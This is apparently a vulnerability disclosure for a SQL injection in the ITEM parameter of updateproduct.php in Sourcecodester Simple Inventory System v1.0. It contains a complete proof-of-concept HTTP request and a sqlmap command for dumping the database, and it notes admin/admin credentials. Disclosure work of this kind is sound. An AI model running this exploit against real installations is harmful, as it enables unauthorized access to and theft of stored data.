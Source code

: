 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：updateproduct.php

injection parameter:$_POST['ITEM']

#### 1.Vulnerability analysis

As shown in the figure below, in updateproduct.php, after the ITEM parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through time-based injection.

![image-20240517162130368](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-4.assets/image-20240517162130368.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /updateproduct.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

ITEM=1&itemnumber=11111
```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240517165913203](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Inventory%20System%20Sql%20Inject-4.assets/image-20240517165913203.png)
